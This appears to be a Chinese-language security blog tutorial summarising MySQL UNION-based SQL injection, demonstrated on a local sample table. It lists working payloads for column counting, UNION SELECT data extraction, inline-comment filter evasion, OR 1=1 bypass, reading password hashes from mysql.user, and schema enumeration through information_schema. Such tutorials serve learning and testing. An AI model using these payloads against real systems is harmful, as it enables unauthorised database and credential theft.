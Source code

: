 ```yaml
---
layout: post
title: "MySQL UNION 注入小结"
subtitle: "MySQL UNION 注入小结"
date: 2019-08-11
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select * from users order by 3;
+----+-------------+---------+---------+------+--------+
| id | name        | chinese | english | math | Strong |
+----+-------------+---------+---------+------+--------+
|  6 | ZhangJinbao |      55 |      85 |   45 |     10 |
|  2 | LiJin       |      67 |      53 |   95 |     10 |
|  7 | HuangRong   |      75 |      65 |   30 |     10 |
|  5 | LiLaicai    |      82 |      84 |   67 |     10 |
|  3 | WangWu      |      87 |      78 |   77 |     10 |
|  4 | LiYi        |      88 |      98 |   92 |     10 |
|  1 | XiaoMing    |      89 |      78 |   90 |     10 |
+----+-------------+---------+---------+------+--------+
7 rows in set (0.00 sec)

```



**UNION 注入**



```mysql
SELECT * FROM users WHERE id = 1 ORDER BY 6;

SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,3,4,5,6;

SELECT * FROM users WHERE id = 1 UNION SELECT 1,2,version(),database(),5,6 FROM users #LIMIT 1;

```



**内联注释**



```mysql
SELECT * FROM users WHERE id = 1 /*!ORDER*/ BY/**/6;

SELECT * FROM users WHERE id = 1/*!*/UNION/**/SELECT 1,2,@@version,database/*asdasd*/(),5,6 FROM users #LIMIT 1;



SELECT * FROM users WHERE id = 0/*!*/OR 1 = 1 UNION/**/SELECT 1,2,@@version,database/*asdasd*/(),5,6 FROM users;
```





**解释**

ORDER BY 子句用来排序使用，**与主查询相匹配**。



**例如：**

```mysql
SELECT * FROM users WHERE id = 1 ORDER BY 6;
```

这里主查询是 `*` 就是所有列。



```mysql
SELECT name FROM users WHERE id = 1 ORDER BY 1;
```

这里查询的为 name  一个列，如果order by 2 报错提示未知列；

*/\*语句* *ERROR 1054 (42S22): Unknown column '2' in 'order clause’ 。\*/*



**查询 mysql 密码 (** 必须为ROOT权限，才可以进行跨裤操作 **)**

```mysql
SELECT host,user,authentication_string FROM mysql.user;   -- MYSQL 8.0

SELECT host,user,password FROM mysql.user;  -- MYSQL 5.5
```



**/\*获取当前用户可操作的数据库\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,group_concat(schema_name) FROM information_schema.schemata;
```



**/\*获取指定数据库表名\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='python';
```



**/\*获取指定表的列名\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,5,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='python' AND TABLE_NAME='users';
```



**/\*获取指定列的内容\*/**

```mysql
SELECT * FROM users WHERE id=1 UNION SELECT 1,2,3,4,name,Strong FROM users;
```



**Tips:**

​        *一般都是有 information_schema这个数据裤的，这个数据裤储存了当前用户的一些信息，数据库、数据表等信息。*



group_concat()，手册上说明:该函数返回带有来自一个组的连接的非NULL值的字符串结果。



**Mysql 5.0以上与5.0以下的区别:**

5.0以下没有information_schema这个系统表，无法列表名等，只能暴力跑表名。





------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***
